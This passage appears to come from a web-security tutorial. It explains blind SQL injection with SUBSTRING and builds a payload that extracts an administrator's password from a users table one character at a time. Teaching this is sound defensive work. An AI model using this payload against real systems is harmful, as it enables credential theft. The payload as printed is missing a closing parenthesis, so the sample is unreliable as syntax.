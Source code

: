 <mark style="color:yellow;">`SUBSTRING (string_expression, first_position, length_of_string)`</mark>

For example, we can use something like this:&#x20;

<mark style="color:yellow;">`SUBSTRING ((SELECT password FROM users WHERE username="administrator"),1,1)`</mark>

Now, this is how the above function will work:

<mark style="color:yellow;">`SELECT password FROM users WHERE username="administrator"`</mark> -> Obtain the password of the administrator user

<mark style="color:yellow;">`1,1`</mark> -> Grab the "first" character of the password string, and grab only the first character. If it was 1,2, we will grab the first two characters of the password string.&#x20;

So, a SQLi payload can be something like this:

<mark style="color:yellow;">`' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1 = 'y`</mark>

The way this payload will work is as follows:

<mark style="color:yellow;">`SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1`</mark> -> obtain the first string of the password of the administrator user.&#x20;

<mark style="color:yellow;">`= 'y`</mark> -> Compare the string with the character 'y' to determine if the first character is y. If 'y'='y', then return true, otherwise false.&#x20;

